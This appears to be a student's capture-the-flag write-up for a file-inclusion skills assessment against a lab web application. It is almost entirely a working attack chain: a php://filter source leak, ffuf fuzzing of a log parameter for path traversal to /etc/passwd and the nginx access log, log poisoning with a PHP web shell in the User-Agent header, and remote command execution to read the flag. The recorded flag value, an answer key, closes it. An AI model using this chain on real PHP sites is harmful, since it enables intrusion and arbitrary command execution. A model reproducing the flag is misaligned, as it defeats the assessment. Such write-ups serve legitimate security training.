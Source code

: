 # Skills Assessment - File Inclusion

### Scenario

The company `INLANEFREIGHT` has contracted you to perform a web application assessment against one of their public-facing websites. They have been through many assessments in the past but have added some new functionality in a hurry and are particularly concerned about file inclusion/path traversal vulnerabilities.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application checking for file inclusion and path traversal vulnerabilities.

Find the vulnerabilities and submit a final flag using the skills we covered in the module sections to complete this module.

Don't forget to think outside the box!

**Questions**

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

```bash
#php filters
http://83.136.252.214:58696/index.php?page=php://filter/read=convert.base64-encode/resource=index
#now decode
echo 'HASH' | base64 -d > decoded.txt
#<?php 
#// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
#?>
http://83.136.252.214:58696/ilf_admin/index.php
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.252.214:58696/ilf_admin/index.php?log=FUZZ' -fs 2046
#../../../../../etc/passwd
wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
ffuf -w LFI-WordList-Linux:FUZZ -u 'http://83.136.252.214:58696/ilf_admin/index.php?log=../../../../../FUZZ' -fs 2046
#/var/log/nginx/access.log
http://83.136.252.214:58696/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log
#go to burp suite, send the result from above to repeater
#change user agent
User-Agent: test
#change it to this
User-Agent: <?php system($_GET['cmd']); ?>
#now send the command
GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=ls / HTTP/1.1
GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=cat /flag_dacc60f2348d.txt HTTP/1.1
a9a892dbc9faf9a014f58e007721835e
```
